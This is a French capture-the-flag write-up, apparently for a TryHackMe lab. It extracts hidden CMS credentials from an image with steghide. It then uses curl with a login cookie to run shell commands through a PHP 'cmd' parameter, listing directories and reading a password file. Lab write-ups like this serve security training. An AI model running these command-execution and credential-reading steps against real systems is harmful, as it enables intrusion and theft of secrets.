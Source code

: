 Je télécharge l'image du site puis je trouve le fichier caché.  
On nous dit que l'on est sur la bonne voie mais c'est la mauvaise image.  

Quand on regarde le code source de la page principale il y trois image :   
header.jpg  
stego.jpg  
jackinthebox.jpg   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget -nv http://jackofalltrades.thm:22/assets/header.jpg
2021-07-23 10:30:21 URL:http://jackofalltrades.thm:22/assets/header.jpg [70273/70273] -> "header.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ steghide --extract -sf header.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "cms.creds".

tim@kali:~/Bureau/tryhackme/write-up$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

On télécharge header.jpg  
On récupère les données cachées.  
On trouve des identifiants CMS :  
Username: jackinthebox  
Password: TplFxiSHjY  

![page6](./task1-06.png)

On voit que l'on peut passer des commandes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=ls%20-al
GET me a 'cmd' and I'll run it for you Future-Jack.
total 12
drwxr-xr-x 2 root root 4096 Feb 28  2020 .
drwxr-xr-x 4 root root 4096 Mar  1  2020 ..
-rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
-rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
```

On test la commande ça fonctionne.  
Pour le cookie on peut le récupérer dans firefox dans storage et cookie.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=ls%20-al%20/home/
GET me a 'cmd' and I'll run it for you Future-Jack.
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list

tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list
GET me a 'cmd' and I'll run it for you Future-Jack.
*hclqAzj+2GC+=0K
```